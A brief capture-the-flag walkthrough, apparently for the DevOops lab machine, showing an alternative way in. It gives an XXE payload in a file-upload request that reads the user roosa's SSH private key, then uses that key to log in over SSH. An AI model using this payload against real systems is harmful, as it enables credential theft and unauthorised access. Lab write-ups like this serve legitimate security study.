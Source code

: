 # Alternative way to exploit DevOops

## Getting access to the box

There is another way to get access to the box as _roosa_ instead of exploiting the _Python pickle module_.

The **XML External Entity (XXE)** vulnerability can be used to read files on the box and we know the usernames from _/etc/passwd_.
Now assuming that this user perhaps has a private SSH key in _/home/roosa/.ssh/id_rsa_ and read that:
```markdown
POST /upload HTTP/1.1
(...)

Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///home/roosa/.ssh/id_rsa">
]>
<Test>
	<Author>&file;</Author>
	<Subject>Test</Subject>
	<Content>Test</Content>
</Test>
```

This can be copied and used to SSH directly into the box:
```markdown
chmod 600 roosa.key

ssh -i roosa.key roosa@10.10.10.91
```
